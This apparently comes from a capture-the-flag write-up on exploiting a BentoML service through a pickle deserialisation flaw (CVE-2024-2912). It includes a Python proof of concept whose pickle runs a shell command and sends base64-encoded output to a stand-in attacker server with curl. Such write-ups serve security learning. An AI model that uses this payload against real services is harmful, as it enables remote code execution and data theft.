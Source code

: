 Notice the content type is JSON? Why not try and use the [Content Type Converter extension](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278) to convert to XML? We are hackers after all, looking at a black box web app (a lot like bug bounty).

![](./images/9.PNG)

Now we get a 500 error: `BentoML does not currently accept application/xml` 💡 Changing the content-type to most values shows a similar error, but you could fuzz it if you like!

A smarter approach might involve looking around for vulnerabilities in the [BentoML library](https://github.com/bentoml/BentoML). Players would quickly discover [this pickle deserialisation bug (CVE-2024-2912)](https://huntr.com/bounties/349a1cce-6bb5-4345-82a5-bf7041b65a68) reported by [PinkDraconian](https://x.com/PinkDraconian). Fun fact; I used to work with Pink but didn't notice his name here until _after_ I made the challenge 😁

#### Deserialization (Python Pickle)

Anyway, the PoC listed above is all you need. Notice the content type is `application/vnd.bentoml+pickle`?

Well, if we set that in our request we get yet another new error: `Error during request to BentoML service`

Don't worry, that's just because our command was invalid (we're doing this blind). Always remember an error does not mean a command wasn't successful! How about a script like this?

{% code overflow="wrap" %}
```python
import pickle
import os
import requests

class P(object):
    def __reduce__(self): # Update server
        return (os.system, ("curl https://ATTACKER_SERVER/?result=`ls | base64`",))

result = pickle.dumps(P())

# Update session cookie
response = requests.post('https://challenge.cryptocat.me/beta', pickle.dumps(P()), headers={"Content-Type": "application/vnd.bentoml+pickle"}, cookies={
                         "session": ".eJwlzktqAzEQBNC7aJ1FfyS15MsM6h82gQRm7FXI3a2QZRVF8X7KkWdc93J7nq_4KMfDy63wHC7LFgiTMJv0TkA9qKr3Jj6Tsq8Kw2KtXWM2jy68ek73npYRJArOtdnA_aWDwDMAMJppNKyh5G1y9cHIs-0Vd6xiQ7WWDXldcf5rcEe7zjye35_x9cez5TKVFWggCzqkjmpWJ5NuwMwGRjnL7xsgrz_c.Z2r3vw.x5oGTbU8yIOy2AIpbO1k0Z4vWgI"})

```